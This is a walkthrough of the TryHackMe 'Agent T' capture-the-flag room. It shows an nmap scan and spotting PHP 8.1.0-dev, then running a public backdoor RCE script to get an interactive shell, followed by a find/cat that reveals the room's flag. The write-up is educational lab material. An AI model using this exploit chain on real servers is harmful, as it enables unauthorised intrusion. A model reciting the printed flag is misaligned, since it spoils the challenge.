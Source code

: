 ```yaml
---
title: Agent T - TryHackMe Walkthrough
date: 2024-06-28
categories: [Walkthrough]
tags: [TryHackMe, CTF]
---
```


![alt text](https://miro.medium.com/v2/resize:fit:640/1*Fxs2XWqwlh4GBhrTCMDx_Q.png)

**URL**: [Agent T - TryHackMe](https://tryhackme.com/r/room/agentt)

**Target IP**: 10.10.25.62

## Description

Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds...

After deploying the vulnerable machine attached to this task, please wait a couple of minutes for it to respond.

**Task**: Find the flag.

---

## Step 1: Scan the Target IP using Nmap

We start by scanning the target IP to gather information about open ports and services. We'll use the `-A` option to enable OS detection, version detection, script scanning, and traceroute.

```bash
┌──(root㉿neo)-[~]
└─# nmap -A 10.10.25.62
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 10:13 IST
Stats: 0:03:32 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.25.62
Host is up (0.17s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
80/tcp filtered http
Too many fingerprints match this host to give specific OS details
Network Distance: 5 hops

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   39.72 ms  10.17.0.1
2   ... 4
5   161.19 ms 10.10.25.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 689.75 seconds
```

**Analysis**:
- Port 80 is filtered, indicating it is likely protected by a firewall or similar mechanism.
- The scan shows the host is up and accessible.

## Step 2: Explore Port 80

Next, we navigate to the webpage hosted on port 80 at [http://10.10.25.62/](http://10.10.25.62/).

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image.png?raw=true)

The webpage looks normal with nothing special. To gather more information about the web technologies used, we utilize the Wappalyzer browser extension.

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image-1.png?raw=true)

**Analysis**:
- Wappalyzer reveals the PHP version used by the server is 8.1.0. 

## Step 3: Search for Exploits

We search for any known exploits for PHP version 8.1.0. 

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image-3.png?raw=true)

During our search, we find a GitHub repository that contains an exploit for PHP 8.1.0-dev remote code execution.

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image-4.png?raw=true)

**URL**: [PHP 8.1.0-dev Backdoor Remote Code Execution](https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git)

## Step 4: Clone the Repository

We clone the repository to our local machine to use the exploit.

```bash
┌──(root㉿neo)-[~]
└─# git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
Cloning into 'php-8.1.0-dev-backdoor-rce'...
remote: Enumerating objects: 241, done.
remote: Counting objects: 100% (239/239), done.
remote: Compressing objects: 100% (113/113), done.
remote: Total 241 (delta 128), reused 232 (delta 124), pack-reused 2
Receiving objects: 100% (241/241), 1.66 MiB | 1.44 MiB/s, done.
Resolving deltas: 100% (128/128), done.
                                                                                                                                                                                              
┌──(root㉿neo)-[~]
└─# cd php-8.1.0-dev-backdoor-rce 
                                                                                                                                                                                              
┌──(root㉿neo)-[~/php-8.1.0-dev-backdoor-rce]
└─# ls
backdoor_php_8.1.0-dev.py  docs  README.md  revshell_php_8.1.0-dev.py
```

## Step 5: Run the Exploit

We execute the Python script `backdoor_php_8.1.0-dev.py` from the cloned repository.

```bash
┌──(root㉿neo)-[~/php-8.1.0-dev-backdoor-rce]
└─# python backdoor_php_8.1.0-dev.py                                     
Enter the host url:
http://10.10.25.62/

Interactive shell is opened on http://10.10.25.62/ 
Can't access tty; job control turned off.
$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

**Analysis**:
- The exploit successfully opens an interactive shell on the target server.

## Step 6: Explore the File System

We begin exploring the file system to locate any sensitive files or the flag.

```bash
$ cd /home

$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor

$ cd /root

$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

No significant files found so far. Let's use the `find` command to search for the flag.

## Step 7: Find the Flag

Using the `find` command to search for files named `flag.txt`.

```bash
$ find / -name flag.txt 2>/dev/null
/flag.txt

$ cat /flag.txt
flag{4127d0530abf16d6d23973e3df8dbecb}
```

**Flag Found**:
- `flag{4127d0530abf16d6d23973e3df8dbecb}`
